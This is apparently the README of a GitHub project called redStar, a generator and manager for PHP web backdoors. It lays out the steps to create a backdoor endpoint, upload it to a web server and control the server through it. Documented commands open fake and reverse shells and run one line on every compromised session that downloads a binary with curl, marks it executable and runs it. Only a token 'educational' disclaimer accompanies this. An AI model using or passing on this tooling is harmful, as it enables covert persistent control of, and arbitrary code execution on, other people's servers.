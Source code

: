 # redStar

redStar is php backdoor generator and management project.

redStar supports autocomplete with [TAB]

## Setup
- pip3 install -r requirements

## Running
- python3 main.py

## Usage
1. Create endpoint
2. upload endpoint to web server
3. add client to redStar
4. have fun


### Create PHP Endpoint File 
createEndpoint 123456 1  => Creates php file in "endpoints" folder
createEndpoint 123456 0  => Creates php file in given path
**OR**
createEndpoint           => Create php file interactive


### Add New Endpoint to redStar
addEndpoint http://localhost/end.php 123456

### Check Avaible Endpoint
checkOnlineSessions

### Execute Commands in All sessions
multiTask "curl http://localhost/test.bin;chmod +x test.bin;./test.bin"

### Get All Sessions
sessions

### Clear Database
clearDB

### Get Fake Shell
sessions 31EAF990D1AB shell

### Get Reverse Shell
sessions 31EAF990D1AB reverseShell

### Delete Session
sessions 31EAF990D1AB delete

### Show Banner
banner


*For Educational Porpuse
